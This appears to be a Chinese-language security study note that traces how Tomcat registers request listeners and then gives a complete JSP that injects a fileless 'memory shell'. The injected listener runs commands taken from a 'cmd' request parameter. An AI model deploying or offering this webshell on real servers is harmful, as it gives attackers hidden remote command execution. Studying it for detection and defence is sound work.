 ```yaml
---
created: '22/02/16'
title: Tomcat-Listener型内存马
tags:
  - java
  - java安全
  - 内存马
---
```

# Tomcat-Listener型内存马

## 参考文章
- http://wjlshare.com/archives/1651

## Tomcat-Listener
Listener（监听器）就是一个实现特定接口的普通java程序，这个程序专门用于监听另一个java对象的方法调用或属性改变，当被监听对象发生上述事件后，监听器某个方法将立即被执行。Listener常用于GUI应用程序中，我们的内存马主要涉及到的是**ServletRequestListener**(由于其在每次请求中都会触发)

## Listener流程分析
首先编写一个Listener并写入web.xml:
```java
package top.longlone.listener;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;

public class DemoListener implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {

    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        System.out.println("request init");
    }
}

```
```xml
 <listener>
    <listener-class>top.longlone.listener.DemoListener</listener-class>
  </listener>
```

然后我们在这个Listener的class部分和`requestInitialized()`下断点:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220217143012.png)
开启调试触发断点，根据堆栈回溯找到`StandardContext.listenerStart()`方法，可以看到它先调用`findApplicationListeners()`获取Listener的名字，然后实例化:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220217143453.png)
接着他会遍历results中的Listener，根据不同的类型放入不同的数组，我们这里的ServletRequestListener放入eventListeners数组中:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220217143730.png)
接下来的操作是通过调用`getApplicationEventListeners()`获取applicationEventListenersList中的值，然后再设置applicationEventListenersList，可以理解为applicationEventListenersList加上刚刚实例化的eventListeners:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220217144043.png)
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220217144123.png)

接下来看第二个断点，根据调用堆栈我们找到了`fireRequestInitEvent()`方法，它会调用`getApplicationEventListeners()`并调用其中所有的`ServletRequestListener.requestInitialized()`:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220217144559.png)


## 内存马实现流程分析
根据上面的分析我们知道Listener来源于tomcat初始化时从web.xml实例化的Listener和applicationEventListenersList中的Listener，前者我们无法控制，但是后者我们可以控制，只需要往applicationEventListenersList中加入我们的恶意Listener即可。

实际上StandardContext存在`addApplicationEventListener()`方法可以直接给我们调用，往applicationEventListenersList中加入Listener。

所以我们的Listener内存马实现步骤:
- 继承并编写一个恶意Listener
- 获取StandardContext
- 调用`StandardContext.addApplicationEventListener()`添加恶意Listener

以下是代码的具体实现:
```
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="javax.servlet.*" %>
<%@ page import="javax.servlet.annotation.WebServlet" %>
<%@ page import="javax.servlet.http.HttpServlet" %>
<%@ page import="javax.servlet.http.HttpServletRequest" %>
<%@ page import="javax.servlet.http.HttpServletResponse" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.Field" %>

<%
    class S implements ServletRequestListener{
        @Override
        public void requestDestroyed(ServletRequestEvent servletServletRequestListenerRequestEvent) {

        }
        @Override
        public void requestInitialized(ServletRequestEvent servletRequestEvent) {
            String cmd = servletRequestEvent.getServletRequest().getParameter("cmd");
            if(cmd != null){
                try {
                    Runtime.getRuntime().exec(cmd);
                } catch (IOException e) {}
            }
        }
    }
%>

<%
    ServletContext servletContext =  request.getServletContext();
    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
    S servletRequestListener = new S();
    standardContext.addApplicationEventListener(servletRequestListener);
    out.println("inject success");
%>
```

